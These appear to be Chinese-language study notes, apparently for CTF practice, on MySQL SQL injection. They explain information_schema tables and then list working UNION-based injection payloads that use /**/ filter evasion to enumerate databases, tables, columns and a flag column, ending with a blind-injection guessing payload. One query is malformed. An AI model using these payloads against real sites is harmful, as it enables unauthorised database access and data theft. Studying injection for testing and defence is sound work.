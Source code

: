 当猜不出表名，字段名。或者无法测试字段数是时。采用强力注入

基本概念

schema：(n) -s/-ta/...men 模式,格式,样板,成规

- 图表,图解,示意图,线路图,系统图                              

schemata ：图解，略图

1.information_schema说明

- nformation_schema数据库是MySQL自带的，它提供了访问数据库元数据的方式。元数据是关于数据的数据，如数据库名或表名，列的数据类型，或访问权限等。有些时候用于表述该信息的其他术语包括“数据词典”和“系统目录”。

- information_schema是信息数据库，其中保存着关于mysql服务器所维护的所有其他数据库的信息。information_schema是一个虚拟数据库，物理上并不存在。

2.information_schema下的表

  2.1 schemata表

1.  schemata表提供了当前mysql实例中所有数据库的信息。

1. schema_name 数据库名

 2.2 tables表

1.  tables表提供了关于数据库中的表的信息（包括视图）。详细表述了某个表属于哪个schema，表类型，表引擎，创建时间等信息

1. 

| table\_schema | 数据库名称 | information\_schema |
| - | - | - |
| table\_name | 表名 |  tables表，属于information\_schema数据库 |
| version | version |  |


2.3 columns表

1.   columns表提供了表中的列信息。详细表述了某张表的所有列以及每个列的信息。是show columns from schemaname(数据库名).tablename(表名)的结果取之此表

2.5 user_privileges表（用户权限表）

1.  user_privileges（用户权限）表给出了关于全程权限的信息。该信息源自mysql.user授权表。是非标准表

![](images/87EC359426F04E148B8DC13E21A78176clipboard.png)

























常用注入语句及分析

1.查询所有数据库

/**/union/**/select/**/schema_name/**/from/**/information_schema.schemata/**/where/**/'1'='1



2.查询所有表

/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1

2.1查询当前数据库所有表

/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/table_schema=(select database() )'1'='1



3.查询所有列

/**/union/**/select/**/column_name/**/from/**/information_schema.columns/**/where/**/'1'='1

3.1查询指定表的所有列

/**/union/**/select/**/column_name/**/from/**/information_schema.columns/**/where/**/table_schema='student'/**/'1'='1



4.查询目标列中字段

/**/union/**/select/**/flag/**/from/**/web1.flag/**/where/**/'1'='1



盲注，猜解数据库名，表名

进行猜解表名： 方法一：1' and exists(select count(*) from 表名) > 0 #

































